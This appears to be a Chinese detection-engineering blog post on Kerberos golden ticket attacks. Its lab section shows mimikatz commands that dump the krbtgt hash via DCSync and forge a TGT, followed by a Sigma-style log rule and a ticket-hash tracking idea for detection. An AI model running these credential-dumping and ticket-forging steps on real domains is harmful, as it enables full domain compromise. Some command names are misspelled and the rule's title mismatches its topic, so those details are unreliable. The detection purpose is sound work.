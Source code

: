 ```yaml
---
title: 监控黄金票据攻击行为
date: 2020-04-16 21:21:21
tags: ATT&CK-持久性
---
```


## 简介

票据传递攻击（PtT）是一种不访问账号密码而使用Kerberos凭据对用户进行身份认证的方法。Kerberos身份认证可以是横向移动到远程系统的第一步。
在使用PtT技术时，可通过凭据导出技术获取有效账号的Kerberos票据。PtT可能会获取到用户的服务票据或票据授予票据（TGT），具体取决于访问级别。服务票据允许访问特定资源，而TGT可用于从票据授予服务（TGS）请求服务票据，用来访问用户有权访问的任何资源。
PtT技术可以为使用Kerberos作为身份认证机制的服务获取白银票据，并用于生成票据来访问特定资源和承载该资源的系统（例如，SharePoint）。
PtT技术还可以使用密钥分发服务账号KRBTGT帐户NTLM哈希来获得域的黄金票据，从而为活动目录中的任一账号生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1087/T1069
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

最后，以上基于日志的检测方法存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过此特征检测黄金票据可能会产生误报或者漏洞，建议采用以下方法进行检测。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1097：<https://attack.mitre.org/techniques/T1097/>
